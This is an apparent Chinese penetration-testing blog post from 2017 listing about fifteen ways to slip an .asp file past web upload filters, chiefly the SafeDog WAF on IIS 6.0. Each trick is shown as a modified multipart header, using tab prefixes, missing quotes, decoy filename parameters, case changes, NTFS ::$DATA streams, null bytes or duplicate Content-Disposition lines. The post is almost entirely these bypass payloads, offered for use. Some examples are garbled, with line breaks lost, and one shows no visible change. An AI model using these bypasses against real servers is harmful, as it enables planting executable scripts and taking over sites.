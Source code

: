 ```yaml
---
title: 上传文件的各种套路
date: 2017-09-11 17:32:30
tags: 
    - 渗透
categories: 渗透
---
```

小小的干货，实战还是有用的

<!-- more -->


原始默认状态：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破0，文件名前缀加[0x09]绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”[0x09]backlion.asp”Content-Type: text/html

突破1，文件名去掉双引号绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=backlion.aspContent-Type: text/html

突破2，添加一个filename1的文件名参数，并赋值绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”;filename1=”test.jpg”Content-Type: text/html

突破3， form变量改成f+orm组合绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: f+orm-data; name=”filepath”;filename=”backlion.asp”Content-Type: text/html

突破4 ，文件名后缀大小写绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.Asp”Content-Type: text/html

突破5 ，去掉form-data变量绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破6，在Content-Disposition:后添加多个空格 或者在form-data;后添加多个空格绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data ; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data ; name=”filepath”; filename=”baclion.asp”Content-Type: text/html


突破7 ，backlion.asp . (空格+.)绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp .”Content-Type: text/html

突破8 ，“回车换行，绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破9 ，NTFS流 在文件名后加::$DATA绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA\0x00\fuck.asp0x00.jpg”Content-Type: text/html
突破10， 经过对IIS 6.0的测试发现，其总是采用第一个Content-Disposition中的值做为接收参数，而安全狗总是以最后一个Content-Disposition中的值做为接收参数。因此尝试构造如下请求[上传backlion.asp成功]：

    Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”—————————–15377259221471Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.txt”Content-Type: application/octet-streamContent-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”Content-Disposition: form-data;name=”FileUploadName”; filename=”backlion.asp”

突破11，将Content-Type和ConTent-Disposition调换顺序位置绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Type: text/htmlConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”

突破12，在文件名前缀加空格（tab键可替换）绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename= “backlion.asp”Content-Type: text/html

突破13，在form-data加空格绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”uploaded”; filename=”backlion.asp”Content-Type: text/html
突破14，在form-data的前后加上+绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: +form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data+; name=”filepath”; filename=”backlion.asp”Content-Type: text/html


